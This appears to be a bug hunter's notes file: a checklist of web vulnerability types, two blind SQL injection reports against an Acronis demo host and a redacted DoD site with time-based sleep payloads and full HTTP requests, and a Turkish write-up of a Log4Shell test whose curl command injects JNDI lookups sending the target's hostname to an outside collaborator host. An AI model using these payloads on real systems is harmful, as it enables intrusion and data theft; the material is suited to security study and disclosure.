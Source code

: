 # road

* SSTI (Username and tools)
* sqli 
* File Upload Vulnerabilities
* SSRF Scan
* web cache poisoning
* Os Command Injection
* Path Traversal Injection
* LFI
* 0Auth Injection

```
A1: Injection

A2: Broken Authentication

A3: Sensitive Data Exposure

A4: XML External Entities (XXE)

A5: Broken Access Control

A6: Security Misconfiguration

A7: Cross-Site Scripting (XSS)

A8: Insecure Deserialization

A9: Using Components with Known Vulnerabilities

A10: Insufficient Logging & Monitoring
```
# Sqli Reports 
## 1

I have discovered a SQL injection in https://demor.adr.acronis.com/ using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:
```http
POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```
Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).
Using various values for the sleep function you get various time responses.
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
```

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

____________________

## 2 
 -
-

newcodeslayer137 submitted a report to U.S. Dept Of Defense.
June 10, 2023, 9:32am UTC

Description:
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.
POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```
Impact
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
Best regards,
CodeSlayer137
System Host(s)
███
Affected Product(s) and Version(s)
CVE Numbers
Steps to Reproduce
```https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896```
Suggested Mitigation/Remediation Actions

___________________________________


______________________________________


Bir gün, uygulamanın içinde bir güvenlik açığı olduğunu fark ettim. Bu güvenlik açığı, internette "Log4Shell" olarak bilinen ve ciddi bir tehdit oluşturan bir problem. Log4j adlı bir yazılım kütüphanesi, internetten gelen verileri işlerken bazı hatalar yapıyor ve bu hatalar, kötü niyetli bir kişinin uzaktan, sanki bilgisayarın başında oturuyormuş gibi komutlar çalıştırmasına olanak tanıyor. Bu problem "CVE-2021-44228" koduyla tanımlanmış.

Neler Yaptım:

Bu açığı test etmek için bir yöntem buldum. Bu yöntemde Burp Collaborator adlı bir aracı kullandım. Bu araç, uygulamanın internet üzerinden verdiği tepkileri izlememi sağlıyor.

İlk olarak, bu aracı kullanarak bir komut oluşturdum. Bu komut, belirli bir internet adresine (COLLABORATOR_URL) bir istek gönderiyor. Komutu şu şekilde yazdım:

```bash
curl --http1.1 --silent --output /dev/null \
--header 'User-agent: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'X-Forwarded-For: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'Referer: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
```
https://ng01-cloud.acronis.com
Bu Komut Ne Yapar?

Bu komut, belirli başlıklar (User-agent, X-Forwarded-For, Referer) kullanarak uygulamaya istek gönderiyor. Başlıkların içindeki ${jndi:ldap://...} kısmı ise, uygulamanın içindeki Log4j kütüphanesine "Bir internet adresine git ve oradan bazı bilgiler al" diyor.

Eğer bu açığın olduğu bir uygulamaya bu komutu gönderirseniz, Log4j kütüphanesi bu isteği işlerken benim belirttiğim internet adresine bir bağlantı yapmaya çalışıyor. Bu bağlantı başarılı olursa, bu uygulamanın zafiyeti olduğunu kanıtlamış oluyorum.

Sonuç:

Uygulama bana kendi sistem adını (hostname) gönderdi. Bu, uygulamanın dışarıdan gelen bu tehlikeli isteği işlediğini ve sonuç olarak sistemde uzaktan komut çalıştırmanın mümkün olduğunu gösterdi.

Etkisi:

Bu açıktan faydalanan kötü niyetli biri, uygulamaya uzaktan komutlar gönderip, bu komutları sistem üzerinde çalıştırabilir. Bu, sistemin tamamen ele geçirilmesine kadar varabilecek ciddi güvenlik riskleri oluşturur.


